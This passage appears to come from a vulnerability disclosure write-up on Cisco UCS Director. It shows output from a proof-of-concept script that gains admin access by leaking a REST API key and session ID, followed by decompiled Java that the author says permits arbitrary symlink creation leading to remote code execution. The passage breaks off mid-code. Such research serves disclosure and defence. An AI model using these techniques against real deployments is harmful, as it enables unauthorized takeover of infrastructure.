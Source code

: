 ```bash
saturn:~ mr_me$ ./poc.py 192.168.100.144
(+) created the exports directory!
(+) found an admins rest API key: 0A7DB7EC61204627BB833CE07AEA0F4C
(+) you are now admin with: JSESSIONID=6728B95915E362BEE745C47DC6CC2FAC375204FB1C9D1431050590DCEDE0D8A2
```

## Remote Code Execution

<p class="cn" markdown="1">Since I have the habit of finding multiple remote code execution vulnerabilities after authentication, I am only going to describe the most interesting one I found.</p>

### CopyFileRunnable run Arbitrary Symlink Creation

<p class="cn" markdown="1">The `com.cloupia.feature.userTemplates.ApplianceFileUploadEntryFormPage` class contains the vulnerable code reachable from `validatePageData`:</p>

```java
/*     */ public class ApplianceFileUploadEntryFormPage
/*     */   implements PageIf
/*     */ {
/*     */
/*     */   // ...
/*     */
/*     */   public int validatePageData(Page page, ReportContext context, WizardSession session) throws Exception {
/*  87 */     logger.info("validatePageData started");
/*  88 */     session.getSessionAttributes().remove(WizardSession.CUSTOM_SESSION_TIMEOUT);
/*  89 */     page.unmarshallToSession("ID_FILE_UPLOAD_ENTRY");
/*     */     
/*  91 */     ApplianceFileUploadEntry config = (ApplianceFileUploadEntry)session.getSessionAttributes().get("ID_FILE_UPLOAD_ENTRY");
/*     */ 
/*     */     
/*  94 */     String actualFileName = config.getActualFileName();
/*  95 */     String dir = FileManagementUtil.getFullPathForLargeFileUpload(actualFileName);
/*  96 */     logger.info("Actual file name:" + actualFileName);
/*     */     
/*  98 */     boolean hasError = false;
/*  99 */     String errorMsg = null;
/*     */     
/* 101 */     if (actualFileName == null || actualFileName.length() == 0) {
/*     */       
/* 103 */       hasError = true;
/* 104 */       errorMsg = "No file uploaded";
/*     */     } 
/* 106 */     logger.debug("Error : " + errorMsg);
/* 107 */     if (!hasError) {
/*     */       
/* 109 */       String uploadFile = dir + actualFileName;
/* 110 */       File f = new File(uploadFile);
/*     */       
/* 112 */       if (!f.exists() || f.isFile());
/*     */     } 
/*     */ 
/*     */ 
/*     */     
/* 117 */     String tempPath = dir + File.separator + actualFileName;
/* 118 */     logger.info("tempPath:" + tempPath);
/*     */     
/* 120 */     String folderName = "public";
/*     */     
/* 122 */     if (config.getFolderType() == 2) {
/*     */       
```